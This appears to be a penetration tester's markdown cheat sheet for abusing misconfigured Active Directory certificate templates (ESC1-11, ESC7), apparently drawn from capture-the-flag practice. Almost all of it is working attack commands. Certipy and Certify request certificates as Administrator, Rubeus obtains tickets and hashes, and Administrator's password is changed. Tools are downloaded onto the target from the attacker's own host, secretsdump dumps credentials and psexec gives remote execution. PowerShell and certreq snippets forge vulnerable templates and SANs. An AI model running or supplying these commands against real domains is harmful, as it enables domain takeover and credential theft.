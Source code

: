 Using Certipy
---
#certipy #Certificate-Abuse

First sync time to DC (in case of time skew):
```shell
sudo rdate -n $TARGET_IP
```
OR
```shell
sudo ntpdate -s $TARGET_IP
```
and then restore
```shell
sudo ntpdate pool.ntp.org
```

SCAN AND EXPLOIT ESC 1 - 11 vulnerable certificate templates with certipy
---
#certipy #vulnerable-template #ad #active-directory #ad-template 

find vulnerable cert templates:
```shell
certipy find -u $USER -p $PASS -dc-ip $TARGET_IP -vulnerable -stdout -text
```
request enrollment of user in template:
```shell
certipy req -u $USER -p $PASS -ca $AD_CA_NAME -target $AD_DNS_NAME -template $TEMPLATE_FOUND_NAME -upn Administrator@$TARGET_AD -dc-ip $TARGET_IP -debug
```
exploit to get admin hash:
```shell
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```

Exploiting misconfigured Certificate template with Rubeus and Certify:
---
#ad #ad-template #misconfiguration #rubeus #certify 

Download certify.exe and Rubeus:

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Certify.exe -O Certify.exe
```

```powershell
wget https://github.com/r3motecontrol/Ghostpack-CompiledBinaries/raw/master/Rubeus.exe -O Rubeus.exe
```

Download on target:

```powershell
$URL="http://$LOCAL_IP/Certify.exe"
$PATH="c:\users\$USER\Desktop\certify.exe"
(New-Object System.Net.WebClient).DownloadFile($URL, $PATH)
```
and run the search
```powershell
./certify.exe find /vulnerable
./certify.exe request /ca:dc.$TARGET_AD\$TARGET_AD-DC-CA /template:UserAuthentication /altname:Administrator
```

After that download the cert using evil-winrm:

```powershell
download cert.pem
```

```shell
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

Upload cert.pfx back to target and perform TGT request:

```powershell
upload cert.pfx
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /ptt
```

or  get hash for evil-winrm etc.:

```powershell
./Rubeus.exe asktgt /user:Administrator /certificate:cert.pfx /getcredentials /show /nowrap
```

```sh
psexec.py -hashes $HASH:$HASH $USER@$TARGET_IIP
```

then

```powershell
./Rubeus.exe changepw /ticket:doIG2DCCBtSg…<snip>…== /new:Password123!! /targetuser:$TARGET_AD\Administrator
```

OR use:

```link
https://github.com/dirkjanm/PKINITtools/blob/master/gettgtpkinit.py
```
instead of rubeus.exe for asktgt function

OR get hash with

```
getnthash.py (untested)
```

then copy ticket.kirbi to LOCAL machine and :

```shell
base64 -di ticket.kirbi >> ticket.bin
impacket-ticketConverter ticket.bin ticket.ccache
export KRB5CCNAME=/home/kali/$TARGET_NAME-box/files/ticket.ccache
```

```sh
pip install minikerberos --user
minikerberos-kirbi2ccache ticket.kirbi ticket.ccache
```

```sh
#fix time skew first!
impacket-secretsdump -k -no-pass g0.$TARGET_AD
impacket-psexec administrator@$TARGET_AD -hashes $HASHES
```

Check with:

```shell
echo $KRB5CCNAME
klist -f
sudo nano /etc/krb5.conf
```

```config
$TARGET_AD = {
  kdc = dc.$TARGET_AD
  admin_server = dc.$TARGET_AD
}
```

then sync time with DC domain controller server

```shell
sudo ntpdate $TARGET_DC
```

Finally login to server using kerberos auth:

```shell
impacket-psexec $TARGET_DOMAIN/Administrator@$TARGET_DC -target-ip $TARGET_IP -dc-ip $TARGET_IP -no-pass -k
```

Powershell cmds:
---
untested, should be ok substitute for ADCSTemplate module:
```powershell
$Properties = @{}
$Properties.Add('mspki-certificate-name-flag',1)
$Properties.Add('pkiextendedkeyusage',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('msPKI-Certificate-Application-Policy',@('1.3.6.1.4.1.311.20.2.2','1.3.6.1.5.5.7.3.2'))
$Properties.Add('flags',0)
$Properties.Add('mspki-enrollment-flag',0)
$Properties.Add('mspki-private-key-flag',256) # 0x100
$Properties.'mspki-private-key-flag' += 16 # 0x10
$Properties.Add('pkidefaultkeyspec',1)
$Properties.Add('pKIDefaultCSPs','1,Microsoft RSA SChannel Cryptographic Provider')
Import-Module ActiveDirectory
Set-AdObject "CN=TemplateName,CN=Certificate Templates,CN=Public Key Services,CN=Services,CN=Configuration,DC=domain,DC=local" -Replace $Properties
```
Create a com object and set the subject alternative name
```powershell
$SAN = New-Object -ComObject X509Enrollment.CX509ExtensionAlternativeNames
$IANs = New-Object -ComObject X509Enrollment.CAlternativeNames
$IAN = New-Object -ComObject X509Enrollment.CAlternativeName
$IAN.InitializeFromString(0xB,"Administrator@$AD_DOMAIN") # UPN to use
$IANs.Add($IAN)
$SAN.InitializeEncode($IANs)
```
Create a request object to request the certificate based on a template
```powershell
$Request = New-Object -ComObject X509Enrollment.CX509Enrollment
$Request.InitializeFromTemplateName(0x1,"TemplateName") # Template to use
$Request.Request.X509Extensions.Add($SAN)
$Request.CertificateFriendlyName = "TemplateName" # Template to use
```
Enroll the certificate:
```powershell
$Request.Enroll()
```

Using CertReq(untested):
---
request.inf

```inf
[NewRequest]
Subject = "CN=ComputerName,CN=Computers,DC=domain,DC=local"
Exportable = TRUE
KeyLength = 2048
KeySpec = 1
KeyUsage = 0x60
MachineKeySet = FALSE
ProviderName = "Microsoft RSA SChannel Cryptographic Provider"
[RequestAttributes]
CertificateTemplate=Web
SAN="upn=Administrator@$ADDOMAIN"
[Extensions]
2.5.29.17 = "{text}"
_continue_ = "upn=Administrator@$ADDOMAIN"
[EnhancedKeyUsageExtension]
OID = 1.3.6.1.4.1.311.20.2.2
OID = 1.3.6.1.5.5.7.3.2
```

then

```powershell
certreq -q -new request.inf request.pem
certreq -q -submit request.pem cert.pem
certreq -q -accept cert.pem
```


ESC7
---
#esc7

```shell
certipy find -u $USER -p PASSWORD -dc-ip $TARGET_IP -vulnerable -stdout -text

#ESC7
certipy ca -ca $AD_CA -add-officer $USER -username $USER@$AD_DOMAIN -password $PASSWORD

certipy ca -ca $AD_CA -enable-template SubCA -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target manager.htb -template SubCA -upn Administrator@$AD_DOMAIN -debug

certipy ca -ca $AD_CA -issue-request XX -username $USER@$AD_DOMAIN -password $PASSWORD

certipy req -username $USER@$AD_DOMAIN -password $PASSWORD -ca $AD_CA -target $AD_DOMAIN -retrieve XX

#fix clock skew then:
sudo ntpdate -s $AD_DOMAIN
certipy auth -pfx administrator.pfx -dc-ip $TARGET_IP
```